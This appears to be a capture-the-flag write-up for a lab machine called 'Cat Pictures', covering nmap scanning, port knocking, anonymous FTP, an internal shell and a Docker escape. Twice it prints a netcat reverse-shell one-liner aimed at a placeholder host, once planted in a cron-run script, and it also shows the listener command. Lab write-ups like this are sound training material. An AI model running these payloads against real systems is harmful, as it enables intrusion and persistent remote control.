


Let's start with the part of getting information about our target, so let's start with Nmap ```nmap catpictures.thm -sV -sC```:

```
PORT STATE SERVICE VERSION
21/tcp filtered ftp
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| 256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_ 256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
4420/tcp open nvm-express?
| fingerprint-strings:
| DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
| INTERNAL SHELL SERVICE
| please note: cd commands do not work at the moment, the developers are fixing it at the moment.
| ctrl-c
| Please enter password:
| Invalid password...
| Connection Closed
| NULL, RPCCheck:
| INTERNAL SHELL SERVICE
| please note: cd commands do not work at the moment, the developers are fixing it at the moment.
| ctrl-c
|_ Please enter password:
8080/tcp open ssl/http-proxy Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
```

When I saw port 21 marked as filtered I tried to connect but had no result. I connected to port 4420 using netcat and found it was an internal shell.



Now I had port 8080 that her service is HTTP.


Upon entering the page I noticed a category called "Your first forum" posted by the "user", so I entered that category and clicked on the topic "Post cat pictures here!"


Seeing the message posted by the user something caught my attention, "Knock knock! Magic numbers: 1111, 2222, 3333, 4444
". I saved this message because it could be a clue and then I Googled "linux knock" and ended up finding a "knockd" (https://www.howtogeek.com/442733/how-to-use-port-knocking- on-linux-and-why-you-shouldnt/).

When reading about it I understood that this is a firewall that allows access to a port when a secret combination is sent (I was thinking it was something related to angels lol). So I figured the secret combination was 1111, 2222, 3333, 4444, so I typed the command ```knock catpictures.thm 1111, 2222, 3333, 4444```

I waited a few seconds and used Nmap again, and that FTP port that was marked as filtered was now open!


Now that I was able to connect to FTP I tried to log in as an anonymous user and then I managed to log in.


I downloaded the note.txt file and what was written in it was this message:

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is <HIDDEN>.
- <HIDDEN>
```


I saved this password to a file and used it to log into the internal shell (port 4420) and got a success message


When enumerating the machine I found a file inside the user folder ```/home/<HIDDEN>/runme```. I tried to run it but a message appeared saying "THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL."

Upon receiving this message, I made a reverse connection using netcat that I found in /bin, I used this payload:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <HOST> <PORT> >/tmp/f
```


I ran the binary but it needed a password to get an answer.


So I sent the binary via netcat to my machine for me to analyze it and get more information from the strings.


Now just use the ```strings runme``` command and start parsing. While I was analyzing the binary I found the login message and on top of it was a word that I used as a password to access the binary, and actually that was a password.


We've received an SSH identification key to log into the machine, so let's copy it to our machine and use it to log in


Yeeah, we log into the server. But something is wrong, we use a normal user and log in as root, something is wrong. Found out that we are in a Docker container so we need to escape from it.

Enumerating the history of last commands in /root/.bash_history I found a file inside /opt/clean/clean.sh and 2 lines after that we found the nano command being used in /etc/crontab.


It looks like the clean.sh file is in a routine using crontab, this can be useful to escape the container. Let's add a line into the file with a reverse shell payload and use netcat in our box.

Victim:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <HOST> <PORT> >/tmp/f
```

Attacker:
```
nc -lnvp <PORT>
```



YEEEEAAAHHH WE CAN GET THE ROOT USER!!!. Now just get the flag and score.

We have finished one more CTF B)
